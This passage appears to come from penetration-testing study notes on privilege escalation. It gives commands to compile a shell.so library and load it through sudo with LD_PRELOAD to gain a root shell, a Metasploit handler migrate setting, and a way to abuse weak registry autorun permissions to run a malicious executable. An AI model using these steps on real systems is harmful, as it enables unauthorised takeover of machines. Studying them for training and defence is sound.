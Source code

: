 Compile `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run `sudo LD_PRELOAD=/home/student/shell.so apache2`
- Setup the `multi/handler`
  - `set InitialAutoRunScript post/windows/manage/migrate` Set to run migrate after getting access (To keep session alive)

### Via Registry autorun

Registry that control autoruns and check their permission, if it have weak permission, write value of registry point to a malicious executable or script.

Typical registry keys associated with autoruns include:
- HKLM\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU\...\CurrentVersion\Run
- HKLM\System\CurrentControlSet\Services

`Get-ACL "C:\Program Files\HTTPServer\" | Format-List` ~ Get access control of folder

### Access token

- Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
- Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
